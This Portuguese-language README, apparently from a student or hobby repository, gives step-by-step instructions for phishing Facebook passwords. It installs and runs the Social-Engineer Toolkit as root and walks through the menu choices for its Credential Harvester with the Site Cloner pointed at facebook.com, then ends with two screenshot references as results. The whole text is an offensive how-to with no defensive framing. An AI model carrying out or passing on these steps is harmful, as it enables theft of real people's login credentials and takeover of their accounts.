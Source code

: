 
# Phishing para captura de senhas do Facebook

## Ferramentas

VirtualBox

Parrot Security

Python 3

setoolkit
## Configurando o Phishing no Parrot Security 


Instalando dependências

```bash
  sudo apt-get install python3
```


```bash
  sudo apt install python3-pip  
```


```bash
  pip3 install ptyprocess 
```

```bash
   pip3 install pexpect 
```

Clonado o projeto

```bash
  git clone https://github.com/trustedsec/social-engineer-toolkit
```

Acessando o diretório do projeto clonado 

```bash
  cd Downloads
```

```bash
  cd setoolkit
```

Instalado Requisitos

```bash
  pip3 install -r requirements.txt
```

```bash
  python setup.py
```

Executando o Phishing

Acesso root:  

```bash
  sudo su
```

Iniciando o setoolkit: 

```bash
  setoolkit
```

Tipo de ataque: 

```bash
  1 - Social-Engineering Attacks
```

Vetor de ataque:

```bash
  2 - Web Site Attack Vectors
```

Método de ataque

```bash
  3 - Credential Harvester Attack Method
```

Método de ataque: 

```bash
  2 - Site Cloner
```

Obtendo o endereço da máquina:

```bash
  ifconfig
```

URL para clone: 

```bash
  http://www.facebook.com/
```


## Resutados

![Alt text](./parrot-terminal.png "Janela do terminal")
![Alt text](./login-facebook.png "Firefox na tela do login do facebook")
